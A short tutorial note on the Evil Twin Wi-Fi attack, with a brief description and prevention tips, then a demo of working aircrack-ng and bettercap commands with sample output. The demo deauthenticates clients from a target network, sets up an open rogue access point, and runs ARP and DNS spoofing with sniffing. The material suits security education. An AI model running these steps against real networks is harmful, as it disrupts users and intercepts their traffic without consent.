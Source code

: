 ```yaml
---
title: "Evil Twin - Draft"
weight: 500
date: 2024-06-15T01:47:46+07:00
---
```


# Evil Twin Attack

- A type of MitM attack
- Description: The attacker sets up a rogue Wi-Fi access point that mimics a legitimate network. Devices connect to it, allowing the attacker to intercept all traffic
- Key Characteristics:
    - The rogue network often has a similar name to the real network (e.g., "FreeWiFi")
    - Victims unknowingly connect to the attacker’s network
- Prevention:
    - Educate users to verify SSIDs before connecting
    - Enable **Mutual Authentication** on enterprise Wi-Fi setups

## Demo

{{<hint danger>}}
**DISCLAIMER**: This demo is for educational purposes only. The techniques should only be tested on systems you own or have explicit permission to analyze. Misuse of this information is unethical, may violate the law, and could lead to serious consequences. The author takes no responsibility for any damages or misuse arising from this content
{{</hint>}}

### Disconnect user from wifi

```sh
# Install the Aircrack-ng suite, which includes airmon-ng
sudo apt install aircrack-ng

# Check wireless interface
iwconfig
# -> E.g output
lo        no wireless extensions.
enp4s0    no wireless extensions.
wlo1      IEEE 802.11  ESSID:"A14-01"  
          Mode:Managed  Frequency:2.417 GHz  Access Point: CC:71:90:62:9E:98   
          Bit Rate=130 Mb/s   Tx-Power=22 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=62/70  Signal level=-48 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:203   Missed beacon:0
docker0   no wireless extensions.
# -> Your wireless interface is wlo1

# Disconnect the wireless adapter from managing a network
sudo airmon-ng check kill

# Enable monitor mode on your wireless adapter
sudo airmon-ng start wlo1

# Verify
iwconfig
# -> E.g output
lo        no wireless extensions.
enp4s0    no wireless extensions.
docker0   no wireless extensions.
wlo1mon   IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
# -> Your wireless adapter with monitor mode is now wlo1mon

# Start capture packets
sudo airodump-ng wlo1mon

# Find the channel of wifi
sudo aireplay-ng --test wlo1mon
# E.g output
12:26:19  Trying broadcast probe requests...
12:26:21  No Answer...
12:26:21  Found 4 APs
12:26:21  Trying directed probe requests...
12:26:21  CC:71:90:62:9E:98 - channel: 2 - 'A14-01'
12:26:27   0/30:   0%
12:26:27  30:4F:75:8F:7F:28 - channel: 2 - 'Dinh Bao'
12:26:33   0/30:   0%
12:26:34  C0:B5:D7:89:36:70 - channel: 8 - 'Do Hai'
12:26:40   0/30:   0%
12:26:40  E8:43:68:6A:3B:88 - channel: 3 - 'Hoang Linh'
12:26:46   0/30:   0%
# -> We will taget 'A14-01' wifi, its channel is 2

# Stop the process capturing packets and start capture packets only on channel 2
sudo airodump-ng --channel 2 wlo1mon

# Deauthenticate target device from wifi by sending deauth packets
sudo aireplay-ng --deauth 100 -a [BSSID] -c [Client_MAC] wlo1mon
# E.g
sudo aireplay-ng --deauth 100 -a CC:71:90:62:9E:98 -c F2:2A:23:9E:54:E2 wlo1mon
# E.g output
12:24:18  Waiting for beacon frame (BSSID: CC:71:90:62:9E:98) on channel 2
12:24:18  Sending 64 directed DeAuth (code 7). STMAC: [F2:2A:23:9E:54:E2] [ 0|42 ACKs]
12:24:32  Sending 64 directed DeAuth (code 7). STMAC: [F2:2A:23:9E:54:E2] [ 0|326 ACKs]
12:24:33  Sending 64 directed DeAuth (code 7). STMAC: [F2:2A:23:9E:54:E2] [ 1|253 ACKs]
# Or omit to target all devices
sudo aireplay-ng --deauth 100 -a CC:71:90:62:9E:98 wlo1mon


```

- Stop capturing packets (exit monitor mode)
```sh
sudo airmon-ng stop wlo1mon
sudo systemctl restart NetworkManager
```

### Create the rogue access point

```sh
sudo apt update
sudo apt install bettercap


# Rogue access point
sudo bettercap -iface wlo1mon

# In bettercap:
set wifi.ap.ssid Banana
set wifi.ap.bssid DE:AD:BE:EF:DE:AD
set wifi.ap.channel 5
set wifi.ap.encryption false
wifi.recon on; wifi.ap


# Fake dns
sudo bettercap -iface wlo1

# In bettercap:
net.probe on
net.show

set arp.spoof.targets 192.168.1.9
set dns.spoof.domains alo1411.team

arp.spoof on
# E.g output
[sys.log] [inf] arp.spoof arp spoofer started, probing 1 targets

dns.spoof on
# E.g output
[sys.log] [inf] dns.spoof alo1411.team -> 192.168.1.17

net.sniff
```

## References

- Bettercap: [WiFi](https://www.bettercap.org/modules/wifi/)